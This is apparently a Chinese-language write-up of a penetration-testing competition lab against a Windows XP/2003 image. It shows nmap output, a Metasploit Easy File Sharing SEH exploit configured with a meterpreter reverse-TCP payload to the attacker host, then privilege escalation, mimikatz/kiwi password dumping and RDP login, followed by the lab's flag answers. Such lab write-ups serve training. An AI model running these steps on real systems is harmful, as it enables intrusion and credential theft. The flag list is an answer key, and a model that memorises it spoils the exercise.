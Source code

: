 ```yaml
---
title: PY-Windows2020-J
date: 2021-09-10 15:06:07
categories: 网络安全
tags:
      - 中科磐云	
      - P100
password: zhimakaimen123.
---
```


# 磐云P100-Windows2020.img

## 0x01 - 信息收集

> 先通过nmap 扫描下 这个系统

```shell
nmap -sV 192.168.83.130 -O                                         255 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-10 13:31 CST
Nmap scan report for 192.168.83.130
Host is up (0.0018s latency).
Not shown: 989 closed ports
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
25/tcp   open  smtp          Microsoft ESMTP 6.0.2600.5512
80/tcp   open  http          Easy File Sharing Web Server httpd 6.9
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  https?
444/tcp  open  ssl/snpp?
445/tcp  open  microsoft-ds  Microsoft Windows XP microsoft-ds
1026/tcp open  msrpc         Microsoft Windows RPC
3389/tcp open  ms-wbt-server Microsoft Terminal Services
8080/tcp open  http          Microsoft IIS httpd 5.1
MAC Address: 52:54:00:4A:F7:50 (QEMU virtual NIC)
Device type: general purpose
Running: Microsoft Windows XP|2003
OS CPE: cpe:/o:microsoft:windows_xp cpe:/o:microsoft:windows_server_2003
OS details: Microsoft Windows XP SP2 or SP3, or Windows Server 2003
Network Distance: 1 hop
Service Info: Host: pysecanq-fc05b3; OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.14 seconds

```

可以看出这是个 **XP** 或 **2003** 的系统 ，用 **Easy File Sharing Web Server** 开启了一个 ***WEB*** 服务，远程桌面端口也开放着。

## 0x02 - 漏洞利用

> Easy File Sharing Web Server 经查询 该软件存在远程溢出漏洞，可以使用 msf模块直接利用
>
> exploit windows/http/easyfilesharing_seh

```shell
#设置目标 ip
set RHOST ip
#设置目标 port
set RPORT 80
#设置payload
set payload windows/meterpreter/reverse_tcp

```

最终效果

```shell
msf6 exploit(windows/http/easyfilesharing_seh) > show options 

Module options (exploit/windows/http/easyfilesharing_seh):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.83.130   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   80               yes       The target port (TCP)
   
Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.83.128   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Easy File Sharing 7.2 HTTP

```

检查无误 直接 exploit

**注意 该漏洞一旦利用 程序就会崩溃退出 所以 只有一次机会**

## 0x03 - flag答题

1. 通过本地PC中渗透测试平台Kali2.0对服务器场景Windows2020进行系统服务及版本扫描渗透测试，并将该操作显示结果中8080端口对应的服务版本信息字符串作为Flag值提交；

   ```bash
   Microsoft IIS httpd 5.1
   ```

   

2. 通过本地PC中渗透测试平台Kali2.0对服务器场景Windows2020进行渗透测试，将该场景网络连接信息中的DNS信息作为Flag值 (例如：114.114.114.114) 提交；

   ```bash
   216.146.35.35
   ```

   

3. 通过本地PC中渗透测试平台Kali2.0对服务器场景Windows2020进行渗透测试，将该场景中的当前最高账户管理员的密码作为Flag值提交； 

   ```bash
   tsgem2020
   ```

   

4. 通过本地PC中渗透测试平台Kali2.0对服务器场景Windows2020进行渗透测试，将该场景桌面上111文件夹中唯一一个后缀为.docx文件的文件名称作为Flag值提交；

   ```bash
   kwanqc.docx
   ```

   

5. 通过本地PC中渗透测试平台Kali2.0对服务器场景Windows2020进行渗透测试，将该场景桌面上111文件夹中唯一一个后缀为.docx文件的文档内容作为Flag值提交；

   ```bash
   gqzmjh
   ```

   

6. 通过本地PC中渗透测试平台Kali2.0对服务器场景Windows2020进行渗透测试，将该场景桌面上222文件夹中唯一一个图片中的英文单词作为Flag值提交；

   ```bash
   capable
   ```

   

7. 通过本地PC中渗透测试平台Kali2.0对服务器场景Windows2020进行渗透测试，将该场景中回收站内文件的文档内容作为Flag值提交。

   ```bash
   qvJhyc
   ```

## 0x04 - S13PyXP 答题步骤

1. exp后先 **提权** 到 **system**

   {% asset_img 001.png %}

2. 加载 **kiwi** 模块

   > kiwi 模块之前叫 mimikatz
   >
   > 老版本的 kali 要 load mimikatz 别搞错了

   {% asset_img 002.png %}

3. 利用 **kiwi** 获取 **Administrator** 的 **密码**

   {% asset_img 003.png %}

4. **rdesktop** 远程一顿梭哈就行 

   {% asset_img 004.png %}

   {% asset_img 005.png %}

## 0x05 - 写在最后

**再看不懂 就重开吧 ！！！**

> 参考文章：https://saucer-man.com/information_security/79.html#cl-9
>
> 参考文章：https://blog.csdn.net/qq_36374896/article/details/107005461

